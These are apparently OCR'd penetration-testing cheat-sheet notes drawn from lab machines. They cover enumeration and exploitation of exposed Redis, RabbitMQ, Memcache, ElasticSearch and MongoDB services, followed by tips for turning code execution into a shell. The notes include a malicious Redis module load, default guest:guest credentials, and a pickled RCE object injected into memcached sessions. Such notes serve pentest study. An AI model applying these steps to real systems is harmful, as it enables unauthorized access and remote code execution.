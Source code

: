 **Redis**
1: **redis-cli -h 10.10.10.10**
2: **info, client list, config get ***
3: redis **RCE**
###Ref: **Wombo**
4: In redis cli, execute: Load **custom** module: **LOAD MODULE
/var/ftp/pub/module.so**
###Ref: **Sybaris**

**RabbitMQ**
1: Access [http://10.10.10.10:15672/](http://10.10.10.10:15672/)
2: Default credential: **guest:guest**

**Memcache**
1: **nmap -n -sV --script memcached-info -p 11211 10.10.10.10**
2: Use telnet/nc to connect, **stats slabs** , **stats items** , **stats cachedump 1 0**
3: Could store **sessions**
4: **get session:session1**
5: **mc.set("session:shell", pickle.dumps(RCE()))** (Python)
###Ref: **Shifty**


**ElasticSearch**
1: Access **[http://10.10.10.10:9200/](http://10.10.10.10:9200/)**
2: **curl -X GET [http://user1:123123@10.10.10.10:9200](http://user1:123123@10.10.10.10:9200)**

**Mongodb**
1: mondo 10.10.10.10
2: mongo 10.10.10.10:27017
3: **mongo db -u user1 -p '123123'**
4: **Mongodb Compass** for **GUI** access
###Ref: **Tico, Phobos, Dibbles**
5: Python login
a: **import pymongo**
b: **c=pymongo.MongoClient("127.0.0.1", 27017)**
c: **c.database_names()**
d: **c.[name].collection_names()**
f: **for I in c.[name].[key].find({}):**
g: **print(i)**

**Others:
Check this link:
https://book.hacktricks.xyz/pentesting/50030- 50060 - 50070 - 50075 - 50090 -
pentesting-hadoop**






# RCE to Shell

**Common**
1: Check **connection** :
Kali: **tcpdump -i tun0 "icmp",**
Target: **ping -c 5 10.10.10.20** (Sometimes **ping** is **unavailable** on target)
2: Switch **/bin/bash** to **/bin/sh** (vice versa)
3: Add **- c** or **/c** flag to **bash** , **cmd** , or **powershell** to create a **new process**
4: Adjust **payload** , **add** or **delete** some **characters**
5: For some script language payload, switch between **one-line payload** and
**function-encapsulated payload**
